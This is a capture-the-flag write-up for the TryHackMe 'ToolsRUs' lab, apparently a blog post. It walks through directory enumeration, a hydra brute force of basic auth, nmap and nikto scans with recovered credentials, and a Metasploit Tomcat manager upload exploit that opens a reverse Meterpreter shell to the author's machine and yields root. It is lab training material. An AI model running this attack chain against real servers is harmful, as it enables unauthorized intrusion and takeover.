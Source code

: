 ```yaml
---
layout: post
title: TryHackMe - ToolsRUs
---
```


This is a writeup to the [ToolsRus Room](https://tryhackme.com/room/toolsrus) on TryHackMe.com. The goal is to practice using dirbuster, hydra, nmap, nikto and metasploit. The challenge is to use the tools to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

* What directory can you find, that begins with a "g"?
  * Use dirbuster with the directory-list-lowercase-2.3-medium.txt wordlist and find the guidelines directory.
* Whose name can you find from this directory?
  * Inside that directory is a message: "Hey bob, did you update that TomCat server?"
* What directory has basic authentication?
  * Eventually the "protected" directory shows up in dirbuster.
* What is bob's password to the protected part of the website?
	```
	kali@kali:~$ hydra -l bob -P rockyou.txt 10.10.70.1 http-get /protected
	...
	[DATA] attacking http-get://10.10.70.1:80/protected
	[80][http-get] host: 10.10.70.1   login: bob   password: <censored>
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-16 00:54:44
	```
* What other port that serves a web service is open on the machine? Going to the service running on that port, what is the name and version of the software? What version of Apache-Coyote is this service using? What version of Apache-Coyote is this service using?
	```
	kali@kali:~$ nmap 10.10.70.1 -A
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 a1:d2:2d:75:f2:94:5d:c2:51:b4:21:4f:8a:6a:b3:f2 (RSA)
	|   256 7e:c6:52:14:6f:b1:3c:eb:42:21:4c:b1:6e:79:32:f3 (ECDSA)
	|_  256 2e:95:75:35:15:2e:67:82:2c:98:4a:c3:9d:e3:ec:55 (ED25519)
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
	|_http-favicon: Apache Tomcat
	|_http-server-header: Apache-Coyote/1.1
	|_http-title: Apache Tomcat/7.0.88
	8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
	|_ajp-methods: Failed to get a valid response for the OPTION request
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```
* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
	```
	kali@kali:~$ nikto -host http://10.10.70.1:1234/manager/html -id bob:bubbles
	- Nikto v2.1.6
	---------------------------------------------------------------------------
	+ Target IP:          10.10.70.1
	+ Target Hostname:    10.10.70.1
	+ Target Port:        1234
	+ Start Time:         2020-11-16 01:08:20 (GMT-5)
	---------------------------------------------------------------------------
	+ Server: Apache-Coyote/1.1
	...
	```
* How many documentation files did Nikto identify?
  * Nikto took a very long time, but eventually discovered 5 files.
* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as, and what text is in the file /root/flag.txt?
	```
	$ msfconsole -q
	msf5 > search name:tomcat type:exploit
	... # tried out multiple exploits, eventually found one that worked
	... # set options based on previously found username:password and RPORT
	msf5 exploit(multi/http/tomcat_mgr_upload) > run

	[*] Started reverse TCP handler on 10.14.4.59:4444 
	[*] Retrieving session ID and CSRF token...
	[*] Uploading and deploying ycK4cqc...
	[*] Executing ycK4cqc...
	[*] Sending stage (53944 bytes) to 10.10.70.1
	[*] Undeploying ycK4cqc ...
	[*] Meterpreter session 1 opened (10.14.4.59:4444 -> 10.10.70.1:44042) at 2020-11-16 01:24:34 -0500
	meterpreter > shell
	Process 1 created.
	Channel 1 created.
	whoami
	root
	cat /root/flag.txt
	<censored>
	```
